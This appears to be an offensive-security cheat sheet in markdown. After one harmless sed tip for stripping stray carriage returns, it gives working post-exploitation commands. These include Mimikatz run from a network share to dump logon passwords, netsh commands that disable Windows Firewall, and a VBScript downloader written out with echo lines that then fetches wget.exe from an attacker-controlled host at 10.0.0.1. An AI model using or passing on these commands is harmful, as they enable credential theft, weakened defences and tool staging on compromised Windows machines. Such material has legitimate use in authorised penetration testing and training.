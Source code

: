 ## Cleanup Weird character in Unix
Sometimes got an error about unexpected characters when compiling C program, this fixed it. Using an editor like Nano prevents it from reoccuring 
```
sed -e "s/^M//" Source > Destiantion 
```

## Mimikatz dump passwords (Needs Admin rights)
```
\\10.0.0.1\share\mimikatz.exe
\\10.0.0.1\share\mimikatz64.exe
privilege::debug
sekurlsa::logonPasswords full
```

## Disable Windows Firewall
### 7+
```
netsh advfirewall set  currentprofile state off
```

### xp/2003
```
netsh firewall set opmode mode=DISABLE
```

## Download remote files with low priv Windows shell - wget.vbs.

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs 
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
### First thing i download is wget.exe
```
cscript wget.vbs http://10.0.0.1/wget.exe wget.exe
```